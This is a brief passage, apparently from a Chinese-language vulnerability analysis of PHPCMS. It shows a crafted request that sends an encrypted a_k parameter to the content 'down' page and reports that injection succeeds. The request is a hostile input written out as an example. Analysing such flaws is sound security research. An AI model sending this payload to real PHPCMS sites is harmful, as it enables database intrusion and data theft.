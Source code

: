 ![](phpcms-漏洞分析/10.png)
再将密文传入down页面
```
/index.php?m=content&c=down&a_k=d684Q3CxmPeTQawF5VPMJ14EOCG2oZgmIfrE-3seVFuTg-w96HxbgKtUZezyx3CHPHUPKtirp7GKRVPPGr7l0EB8LsXHIKZFbNrckmv7JgsLN-febFuXMTbSfP8B82XHpaFEgdnTZNqiH7rdmDZuy-M3Kbsb9iHQ3CfvwW2wCDu4M9L8DadlkWi_kJaXPaomsm5R7PF5hG0tahAb6U6TEoisxR_ULHXqESnOQzWOc-hvkXCaBKgGypgdpJZA
```
成功产生注入